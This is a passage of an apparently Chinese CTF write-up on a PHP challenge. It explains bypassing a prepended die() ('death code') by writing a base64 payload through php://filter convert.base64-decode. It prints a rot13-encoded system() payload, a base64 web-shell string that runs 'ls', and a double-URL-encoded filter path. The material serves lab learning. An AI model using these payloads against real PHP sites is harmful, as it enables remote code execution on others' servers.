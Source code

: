 

<img src="https://i-blog.csdnimg.cn/blog_migrate/dc39e49a705d2b44e911edcd2bf9d17c.png" alt="" style="max-height:131px; box-sizing:content-box;" />


再次修改访问 fl0g.php即可

```ruby
<?cuc flfgrz('gnp sy0t.cuc');?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/cd0b7ceae40cc59b4ab7b33eb7ec80c9.png" alt="" style="max-height:173px; box-sizing:content-box;" />


### base64

我们get的内容已经实现了 那我们看看怎么绕过死亡代码

```php
我们输入 <?php system('tac fl0g.php');?>
 
就会结合为 <?php die('大佬别秀了');?><?php system('tac fl0g.php');?>
直接退出
 
如果我们使用base64的话
 
<?php die('大佬别秀了');?> 只会解码 php  和 die 指令 
 
 
而base64通常是8个一组 phpdie只有6个 所以我们随便补充两个来保证解码
 
aaPD9waHAgc3lzdGVtKCdscycpOz8+
 
这个时候 base64解码就是
 
phpdieaaPD9waHAgc3lzdGVtKCdscycpOz8+
 
其中phpdieaa 会解码失败 从而绕过 死亡代码
```

所以我们来进行写入

```cobol
POST
content=aaPD9waHAgc3lzdGVtKCdscycpOz8+
 
GET
 
?file=php://filter/write=convert.base64-decode/resource=flag.php
 
 
 
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%36%36%25%36%63%25%36%31%25%36%37%25%32%65%25%37%30%25%36%38%25%37%30
```
